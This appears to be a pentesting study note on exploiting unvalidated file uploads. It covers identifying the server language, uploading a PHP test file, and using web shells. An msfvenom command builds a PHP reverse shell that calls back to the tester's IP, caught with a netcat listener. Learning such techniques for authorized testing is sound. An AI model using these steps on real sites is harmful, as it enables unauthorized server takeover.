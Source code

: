 ## Absent Validation

### Identifying Web Framework

First you must identify what language runs the web application since a web shell has to be written in the same programming language that runs the web server.

Things to inspect:
- URL extensions
- Certain web frameworks use `Web Routes` to map URLs to web pages
- Visit the `/index.ext` page and replace `ext` with various common extensions (e.g., `php`, `asp`, `aspx`)
	- Can use `/usr/share/SecLists/Discovery/Web-Content/web-extensions.txt`
- [Wappalyzer](https://www.wappalyzer.com/)

### Vulnerability Identification

#### Upload a basic `Hello World` script to the site
```Shell
echo '<?php echo "Hello World";?>' > test.php
```
If the page could not run PHP code, we would see our source code printed on the page

#### Basic PHP File Read

See folder in Kali

#### Basic PHP Command Execution

See folder in Kali


## Upload Exploitation

### Web Shells

- phpbash
- `/usr/share/SecLists/Web-Shells`
- Custom shell in Kali folder (PHP and ASP)

#### Reverse Shells
- PHP: PentestMonkey
- `/usr/share/SecLists/Web-Shells`

Input our `IP` and listening `PORT`
Start a netcat listener

#### Custom Reverse Shell
```Shell
msfvenom -p php/reverse_php LHOST=OUR_IP LPORT=OUR_PORT -f raw > reverse.php
```
Start a netcat listener to catch it once executed
